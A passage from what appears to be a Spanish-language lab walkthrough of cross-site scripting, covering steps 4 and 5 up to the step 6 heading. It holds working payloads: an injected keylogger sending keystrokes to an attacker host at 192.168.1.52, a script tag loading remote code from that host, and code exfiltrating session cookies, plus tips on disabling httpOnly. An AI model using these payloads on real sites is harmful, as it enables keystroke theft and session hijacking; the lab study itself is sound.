 Alternativa, más optimizada:

```HTML
<script>
  var data = "";
  document.onkeypress = function(e) {
    data += e.key;
    if (data.length > 20) {
      new Image().src = "http://192.168.1.52/log?c=" + data;
      data = "";
    }
  };
</script>

```

> **Explicación:**  
> El script captura las teclas presionadas y envía la información al servidor del atacante.

---

## Paso 5 - External JavaScript Source para Cookie Hijacking

**Fragmento inyectado en el cuerpo del mensaje:**

```html
<script src="http://192.168.1.52/cookies.js"></script>
```

- Este código conecta con un script alojado en la máquina del atacante.
    
- Al cargar el post con este código, la víctima descarga y ejecuta el script, permitiendo que el atacante recoja la cookie de sesión.
    

**Código para enviar la cookie recolectada:**

```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.1.52/?cookie=' + document.cookie);
request.send();
```

**Detalles adicionales:**

- Se explica cómo ver las cookies de sesión mediante `Ctrl+Shift+I` (Storage) en el navegador.
    
- Se recomienda visitar [jwt.io](https://jwt.io/) para descodificar la cookie (en formato JSON Web Token).
    
- Se indica la necesidad de desactivar la opción `httpOnly` desde las herramientas de desarrollo para poder capturar cookies de sesión.
    

---

## Paso 6 - Secuestro de Sesión para Escribir un Post en Nombre de la Víctima
